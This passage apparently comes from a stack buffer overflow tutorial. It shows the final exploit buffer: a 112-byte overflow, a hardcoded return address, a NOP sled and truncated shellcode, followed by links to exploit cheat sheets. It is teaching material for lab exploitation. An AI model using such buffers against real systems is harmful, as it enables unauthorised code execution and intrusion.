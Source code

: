 ```
padding = "\x90" * 16
```

### Final Buffer

```
prefix = ""
offset = 112
overflow = "A" * offset
retn = "\x56\x23\x43\x9A" # Jump Poit Found
padding = "\x90" * 16 # NOPs
payload = "\xdb\xde\xba\x69\xd7\xe9\xa8\xd9\x74\x24\xf4\x58\x29\xc9\xb1..." #Shell Code script generated
postfix = ""
    
buffer = prefix + overflow + retn + padding + payload + postfix
```

# 6. Exploit it!



## More Resources

https://github.com/Tib3rius/Pentest-Cheatsheets/tree/master/exploits

https://github.com/gh0x0st/Buffer_Overflow

https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood_tutorial.pdf

***
Check My work:
https://www.instagram.com/lunox.code/
***

